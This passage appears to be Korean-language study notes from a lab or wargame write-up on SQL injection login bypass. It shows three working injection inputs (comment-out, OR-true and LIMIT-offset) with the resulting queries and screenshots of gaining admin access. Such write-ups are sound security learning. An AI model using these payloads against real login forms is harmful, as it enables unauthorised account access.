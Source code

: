 
<br/><br/>

### 익스플로잇

#### SQL Injection: 관리자의 계정을 모른 채 로그인을 우회하여 풀이하는 방법
* 정상적인 이용자가 로그인을 위해 실행하는 쿼리문
	```SQL
	select * from users where userid=“{userid}” and userpassword=“{userpassword}”
	```
	- 위의 쿼리문을 참고해 admin이라는 결과가 반환되도록 쿼리문을 조작해야 함
		+ SQL은 수많은 조건절을 제공하기 때문에 다양한 방법으로 공격을 시도할 수 있음
* admin 계정으로 로그인할 수 있는 SQL Injection 공격 코드
   1. userid 검색 조건만을 처리하도록, 뒤의 내용은 주석 처리하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | admin"-- | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="admin"--" and userpassword="DUMMY"
          ```
	<img width="1146" alt="sqli_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/e09d2011-6c60-4cce-9097-c99dabc535d5">

  2. userid 검색 조건 뒤에 ```OR``` 조건을 추가하여 뒤의 내용과 관계없이 admin이 반환되도록 하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | admin" or "1 | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="admin" or "1" and userpassword="DUMMY"
          ```

	<img width="1146" alt="sqli_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/aa28fe5e-cc5a-421b-9e53-299accf9b321">

  3. userid 검색 조건 뒤에 ```or 1```을 추가하여 테이블의 모든 내용을 반환하도록 하고, ```LIMIT``` 절을 이용해 admin 행만 반환하도록 하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | " or 1 LIMIT 1,1 -- | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="" or 1 LIMIT 1,1--" and userpassword="DUMMY"
          ```

	<img width="1146" alt="sqli_3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/93a4fa37-d32f-459f-8f20-491752892a62">

* SQL Injection 수행 결과
	<img width="1146" alt="sqli_result" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/e7b5e886-90c1-427e-94d0-103bc1cfda2e">
